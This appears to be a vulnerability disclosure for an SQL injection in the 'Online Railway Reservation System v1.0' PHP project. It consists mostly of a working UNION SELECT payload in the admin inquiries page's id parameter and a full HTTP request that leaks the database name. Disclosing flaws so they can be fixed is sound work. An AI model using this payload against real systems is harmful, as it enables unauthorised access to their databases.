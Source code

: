 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/admin/inquiries/view_details.php?id=

Vulnerability location: /orrs/admin/inquiries/view_details.php?id=, id

dbname = orrs_db

[+] Payload: /orrs/admin/inquiries/view_details.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7--+ // Leak place ---> id

```sql
GET /orrs/admin/inquiries/view_details.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close
```
![image](https://user-images.githubusercontent.com/75623057/172327955-205662c7-21cb-4201-b819-c9f0001c7601.png)

![image](https://user-images.githubusercontent.com/75623057/172327802-d8ac692e-0386-43f0-95ce-642e71e5bd88.png)

